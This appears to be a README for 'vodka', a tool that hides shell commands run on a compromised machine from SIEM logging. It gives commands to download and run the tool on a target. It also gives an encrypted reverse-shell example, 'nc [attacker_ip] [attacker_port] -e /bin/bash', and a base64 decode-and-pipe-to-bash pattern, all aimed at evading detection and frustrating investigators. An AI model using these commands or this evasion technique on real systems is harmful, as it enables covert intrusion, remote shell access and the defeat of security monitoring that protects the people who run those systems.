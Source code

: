 
<div align="center">
 <h1> vodka 🧊</h1>  
 <h4> Shell command obfuscation to avoid SIEM detection </h4>
 <p> During pentest, an important aspect is to be stealth. For this reason you should clear your tracks after your passage. Nevertheless, many infrastructures log command and send  them to a SIEM in a real time making the cleaning part alone useless.<br><br><code>vodka</code> provide a simple way to hide commands executed on compromised machine by providing it self shell runtime (enter your command, vodka execute for you).</p>

  <p><strong><code>{ <a href="#usage">Use it</a> ; <a href="#hide-from">🧊<sub>(hide from)</sub></a>; <a href="#detection">👁️<sub>(detected by)</sub></a> } </code></strong></p>
</div>

## Usage

You need to get an interactive shell. (Find a way to spawned it, you are a hacker, it's your job !). Then download it on target machine and launch it. that's it, now you can type the command you want to be stealthy executed 
```shell
## Download it from github release
## If you do not have internet access from compromised machine, find another way
curl -lO -L https://github.com/ariary/vodka/releases/latest/download/vodka

## Execute it
./vodka

## You are now under the radar
vodka » echo "Hi SIEM team! Do you find me?" > /dev/null 2>&1  #you are allowed to be a bit cocky
vodka » [command]
```

Keyword for vodka console:
* `ring`: enable ring mode ie each command is launched with plenty others to cover tracks (from solution that monitor system call)
* `exit`: exit vodka console

### from non interactive shell

Imagine you have a non interactive shell (webshelk or blind rce), you could use `encrypt` and `decrypt` subcommand.
Previously, you need to build `vodka` with embedded encryption key.

**On attacker machine**
```shell
## ATTACKER MACHINE

## Build vodka with encryption key
make build.vodka-with-enc

## Transfer it on TARGET (the unique detectable command)
## [...]

## Encrypt the command you want to stealthy execute
## (Here a nc bindshell to obtain a interactive shell)
vodka encrypt "nc [attacker_ip] [attacker_port] -e /bin/bash"
**encrypted cmd**
```

Copy encrypted command and executed it with your rce **on target machine**
```shell
./vodka decrypt [encrypted_command]
## Now you have a bindshell shell, spawn it to make it interactive and use vodka normally)

```

***Why not just hide command with `echo [command] | base64` ?***
And decode on target with `echo [encoded_command] | base64 -d | bash`

Cause we want to make investigation difficult and base64 isn't a real brake

## Hide from

Only the `vodka` lauch command line will be catched

## Detection
